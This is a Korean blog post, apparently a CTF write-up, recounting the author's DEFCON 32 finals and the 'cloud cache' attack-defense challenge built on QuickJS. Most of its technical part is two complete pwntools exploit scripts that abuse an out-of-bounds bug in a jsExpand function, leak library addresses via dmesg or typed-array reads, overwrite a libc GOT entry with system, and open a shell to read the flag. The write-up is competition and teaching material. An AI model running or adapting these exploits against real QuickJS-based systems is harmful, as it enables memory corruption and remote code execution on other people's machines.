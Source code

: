 ```yaml
---
title: "DEFCON 32"
dateString: October 2024
draft: false
tags: ["DEFCON CTF"]
weight: 30
date: 2023-12-20
categories: ["CTF"]
# cover:
    # image: ""
---
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/4779bf4917b80cd4eeccc66c064b8c41.jpg)
컨퍼런스 티켓도 구매했었는데 대회랑 겹쳐서 전날에 구경밖에 못했다.
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/1c63c55b3cc3452d5a4dd47bd1d7752d.jpg)
숙소 1층에서 DEFCON 셔틀이 있어서 그거 타고 라스베가스 컨벤션 센터로 갈 수 있었다.
1, 2일차에는 여러 문제들 보면서 잡다한 버그들 찾다가 상대팀 패치도 분석해보고 공격 패킷도 분석하면서 시간을 보냈다.
2일차에 마지막으로 release된 Attack & Defense 문제중에 cloud cache를 잡았다.

그날 저녁 열심히 익스플로잇 코드 두 개를 준비해서 갔지만 막상 3일차에 본선장에 가서 다른 팀들한테 쏴봤더니 둘다 동작하지 않아서 당황했다.
원래 계획과는 다르게 팀원분이 다른 취약점으로 준비하신 두 개의 익스플로잇 코드를 먼저 쏘셨다.
이대로 쪽박치는줄 알았지만 코드 수정에 성공해서 많은 팀들을 때릴 수 있었다.
rate limit이 걸려있어서 exploit을 원래 자동으로 날려주는 툴이 있었는데 사용하지 못했다.
그래서 그때부터 대회 끝날때까지 라운드마다 직접 손으로 쐈다.
첫 라운드엔 MMM 플래그도 따였었는데, 패치가 지연되어서 늦게 올라갔던건지 얼마 지나지 않아 패치되었다.
MMM 분들이 패치하자마자 일부 팀들이 백도어 위험을 감수하고 패치를 그대로 적용해버려서 대회 끝날때쯤엔 두 팀 정도를 제외하고 모두 패치되었다.
# cloud cache
유저랜드 프로그램은 quickjs 프롬프트가 나오는 방식이고 커널 드라이버가 로드되어서 같이 상호작용한다.
로컬에서 돌리려고 쌩쇼를 하고 있었는데 팀원분이 유저 프로그램에서 oob를 찾아주셨다.
그래서 oob를 통해 dos를 내고 dmesg를 조합하면 뭔가 익스를 할 수 있을것 같았다.
커널쪽 취약점도 따로 있었다고 하는데 그 부분은 다른 팀원분이 익스를 해주셨다.
## exploit with dmesg
oob dos + dmesg를 조합해서 릭을 했다.
sign extension은 안되고 -1 같은 경우 0xffffffff로 계산되기에 다음 코드는 항상 dos가 난다.
```c
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
그리고 js_expand 함수 내부에서 JS_ToInt32로 두번째 인자는 검사를 하는데 첫번째 인자를 검사하지 않아 실질적으로 double을 인자로 주면 이게 주소로 인식이 된다.
```c
   ...
  else if ( (JS_ToInt32)(ctx, &new_len, argv[1].u.ptr, argv[1].tag) )
  {
    return 0LL;
  }
  else
  {
    v5 = new_len;
    v6 = *(argv->u.ptr + 4);
    *(argv->u.ptr + 8) = new_len;
    result = v5;
    *v6 = v5;
  }
  return result;
}
```
그래서 js_expand 함수 내부 로직을 통해 4 byte aaw가 가능해진다.
그런데 실질적으로 쓰기 연산 자체는 8 byte 단위여서 다른 방법을 찾기로 했다.
```python
# double array 
# element ptr | length
# heap chunk size | element 1 | element 2 ...
# --- normal oob array ---
# contraints : 0x10 aligned & oob 8bytes + type data
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
이런식으로 일반 array를 쓰면 내부적으로 64bit value | type data 가 포함된 형태로 저장되었다.
그래서 실질적으로 0x10 aligned 된 쓰기만 가능했다.
읽기를 할때도 항상 tag 검사가 있어서 실질적으로 oob leak이 불가능했다.
dmesg로 quickjs.so의 base를 구할 수 있었다.
어떻게 array를 배치해도 메모리 상에서 +0x8 위치에 있는 element pointer를 덮을 수 없었다.

그러다가 Float64Array 같은 type이 지정된 array를 만들면 type 정보가 생략된다는 것을 알았다.
```python

from pwn import *
import base64
context.log_level='debug'
def exploit(ip: str, port: int) -> str | None:
    r_info = remote(ip, port)
    r_info.recvline()
    r_info.recvuntil('telnet ')
    ip, port = r_info.recvline()[:-1].split()
    port = int(port)

    p = remote(ip, port)
    p.sendline('a = [1.1, 2.2]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
    p.close()
    p = remote(ip, port)
    p.sendline('dmesg()')
    while True:
        if p.recvuntil(b'Code: ', timeout=1.5) == b'':
            break
    msg = p.recvuntil(b'undefined')
    quickjs_base = int(msg[msg.find(b'RAX:'):].split()[1],16) - 0x21078
    log.success(hex(quickjs_base))
    libc_base = quickjs_base - 0x229000# - 0x23b000 # local offset
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    global_ctx = int(msg[msg.find(b'RDI:'):].split()[1],16)
    log.success(hex(global_ctx))
    heap = int(msg[msg.find(b'RSI:'):].split()[1],16)
    target = heap + 0x1bf0
    log.success(hex(target))
    p.close()
    p = remote(ip, port)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    p.sendline('cat /fla? | base64')
    flag = base64.b64decode(p.recvline()[:-1]).decode()
    return flag

print(exploit('localhost', 9999))
```
하지만 위 방식의 익스플로잇 코드는 로컬 환경에선 동작했지만 대회장에 가서는 동작하지 않았다.
두 번째 익스플로잇처럼 수정했다면 동작했을 수 있었겠지만, 익스플로잇 수정이 완료되었을 시간엔 거의 패치가 완료되었을 것이라 생각했기에 바로 두번째 익스플로잇을 이용했다.
## exploit without dmesg
첫 번째 익스플로잇을 짜다가 발견했던 type 정보 생략을 이용해서 메모리 릭도 자체적으로 수행할 수 있을 것이라고 생각했다.
function을 정의해서 할당 관련 함수를 힙에 남기고 이를 릭해서 quickjs.so의 base를 얻을 수 있었다.
대회장에선 동작을 안해서 좀 더 안정적으로 만들기 위해 element pointer를 quickjs.so의 got로 변조해서 libc의 base를 얻도록 수정했다.
```python
from pwn import *
import base64
import struct
def exploit(ip: str, port: int) -> str | None:
    # r_info = remote(ip, port)
    # r_info.recvline()
    # r_info.recvuntil('telnet ')
    # ip, port = r_info.recvline()[:-1].split()
    # port = int(port)

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory);')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); console.log("lk:"+b[13]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    object_elemnt_ptr = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    log.success(hex(object_elemnt_ptr))
    p.sendline('let f = () => {return 1;};')
    sleep(0.5)
    p.sendline(f'console.log("lk:"+b[{0x48}]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    if quickjs_base == 0:
        log.info('leak failed. retrying ...')
        sleep(0.5)
        p.sendline(f'c = console.log; console.log("lk:"+b[{0x4e}]);')
        p.recvuntil(b'lk:')
        lk = float(p.recvline()[:-1])
        quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
        if quickjs_base == 0:
            for i in range(10):
                log.info(f'trying - {i}')
                sleep(0.3)
                p.sendline(f'c = console.log; console.log("lk:"+b[{0x48 + i}]);')
                p.recvuntil(b'lk:')
                lk = float(p.recvline()[:-1])
                quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
                if quickjs_base & 0xf30 == 0xf30:
                    break
    assert quickjs_base != 0
    
    quickjs_base -= 0xff30
    quickjs_got = quickjs_base + 0xa9068 # free 
    log.success(hex(quickjs_got))
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(quickjs_got)&0xffffffff}, {quickjs_got >> 32}); console.log("lk:"+b[0]);')
    sleep(0.5)# = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    libc_base = struct.unpack('<Q', struct.pack('<d', lk))[0] - 0xa53e0
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    # p.sendline('rev /flag')
    # p.sendline("cat /flag")
    p.interactive()
# context.log_level='debug'

import sys
(exploit(f'10.10.{sys.argv[1]}.1', int(sys.argv[2])))
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/e1984dde2de61b1ba18fea92027fde1f.png)
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/24e81fef68818f92515cc69b97e5d6eb.png)
이런식으로 매 라운드마다 팀원분들과 함께 열심히 다른팀에 쐈다.
이거 말고도 몇 가지 quickjs 1-day도 다 먹혔다고 하는데 시간이 없어서 1-day 익스는 짜지 못했다.  